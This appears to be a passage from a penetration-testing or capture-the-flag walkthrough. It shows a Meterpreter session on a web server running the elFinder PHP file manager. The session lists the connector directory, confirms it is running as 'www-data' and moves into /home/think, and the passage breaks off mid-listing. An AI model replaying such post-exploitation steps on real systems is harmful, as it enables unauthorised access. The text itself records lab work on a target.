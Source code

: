 ```
Mode              Size    Type  Last modified              Name  
----              ----    ----  -------------              ----  
040755/rwxr-xr-x  4096    dir   2024-11-23 21:42:34 +0000  .tmp  
100755/rwxr-xr-x  1167    fil   2024-04-02 13:30:58 +0100  MySQLStorage.sql  
100755/rwxr-xr-x  2598    fil   2024-04-02 13:30:58 +0100  autoload.php  
100755/rwxr-xr-x  7329    fil   2024-04-02 13:30:58 +0100  connector.minimal.php  
040755/rwxr-xr-x  4096    dir   2024-04-02 13:30:58 +0100  editors  
100755/rwxr-xr-x  167518  fil   2024-04-02 13:30:58 +0100  elFinder.class.php  
100755/rwxr-xr-x  12221   fil   2024-04-02 13:30:58 +0100  elFinderConnector.class.php  
100755/rwxr-xr-x  13126   fil   2024-04-02 13:30:58 +0100  elFinderFlysystemGoogleDriveNetmount.php  
100755/rwxr-xr-x  3331    fil   2024-04-02 13:30:58 +0100  elFinderPlugin.php  
100755/rwxr-xr-x  7767    fil   2024-04-02 13:30:58 +0100  elFinderSession.php  
100755/rwxr-xr-x  1094    fil   2024-04-02 13:30:58 +0100  elFinderSessionInterface.php  
100755/rwxr-xr-x  55445   fil   2024-04-02 13:30:58 +0100  elFinderVolumeBox.class.php  
100755/rwxr-xr-x  251064  fil   2024-04-02 13:30:58 +0100  elFinderVolumeDriver.class.php  
100755/rwxr-xr-x  41782   fil   2024-04-02 13:30:58 +0100  elFinderVolumeDropbox.class.php  
100755/rwxr-xr-x  44696   fil   2024-04-02 13:30:58 +0100  elFinderVolumeDropbox2.class.php  
100755/rwxr-xr-x  57466   fil   2024-04-02 13:30:58 +0100  elFinderVolumeFTP.class.php  
100755/rwxr-xr-x  68402   fil   2024-04-02 13:30:58 +0100  elFinderVolumeGoogleDrive.class.php  
100755/rwxr-xr-x  5371    fil   2024-04-02 13:30:58 +0100  elFinderVolumeGroup.class.php  
100755/rwxr-xr-x  44740   fil   2024-04-02 13:30:58 +0100  elFinderVolumeLocalFileSystem.class.php  
100755/rwxr-xr-x  28902   fil   2024-04-02 13:30:58 +0100  elFinderVolumeMySQL.class.php  
100755/rwxr-xr-x  61355   fil   2024-04-02 13:30:58 +0100  elFinderVolumeOneDrive.class.php  
100755/rwxr-xr-x  1583    fil   2024-04-02 13:30:58 +0100  elFinderVolumeTrash.class.php  
100755/rwxr-xr-x  1576    fil   2024-04-02 13:30:58 +0100  elFinderVolumeTrashMySQL.class.php  
040755/rwxr-xr-x  4096    dir   2024-04-02 13:30:58 +0100  libs  
100755/rwxr-xr-x  24832   fil   2024-04-02 13:30:58 +0100  mime.types  
040755/rwxr-xr-x  4096    dir   2023-07-30 14:41:59 +0100  plugins  
040755/rwxr-xr-x  4096    dir   2024-04-02 13:30:58 +0100  resources  
  
meterpreter > getuid  
Server username: www-data  
  
meterpreter > cd /home  
meterpreter > ls -la  
  
```
Listing: /home  
==============  
  
```
Mode              Size  Type  Last modified              Name  
----              ----  ----  -------------              ----  
040755/rwxr-xr-x  4096  dir   2024-01-11 20:29:34 +0000  think  
  
meterpreter > cd think  
meterpreter > ls -la  
```
Listing: /home/think  
====================  
  
